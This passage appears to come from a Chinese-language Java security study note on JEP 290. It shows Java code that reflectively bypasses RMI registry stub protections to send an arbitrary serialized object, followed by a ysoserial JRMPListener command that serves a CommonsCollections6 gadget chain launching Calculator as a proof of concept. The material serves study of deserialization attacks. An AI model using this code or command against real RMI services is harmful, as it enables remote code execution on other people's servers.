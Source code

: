 ```java
    static void bindReflection(String name, Object obj, Registry registry) throws Exception {

        Field ref_filed = RemoteObject.class.getDeclaredField("ref");
        ref_filed.setAccessible(true);
        UnicastRef ref = (UnicastRef) ref_filed.get(registry);

        Field operations_filed = RegistryImpl_Stub.class.getDeclaredField("operations");
        operations_filed.setAccessible(true);
        Operation[] operations = (Operation[]) operations_filed.get(registry);

        RemoteCall remoteCall = ref.newCall((RemoteObject) registry, operations, 0, 4905912898345647071L);
        ObjectOutput outputStream = remoteCall.getOutputStream();

        Field enableReplace_filed = ObjectOutputStream.class.getDeclaredField("enableReplace");
        enableReplace_filed.setAccessible(true);
        enableReplace_filed.setBoolean(outputStream, false);

        outputStream.writeObject(name);
        outputStream.writeObject(obj);

        ref.invoke(remoteCall);
        ref.done(remoteCall);
    }
}
```

 - ysoserial

```bash
java -cp ~/Desktop/ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections6 'open /System/Applications/Calculator.app'
```

![](./Java安全学习-JEP290/56.png)
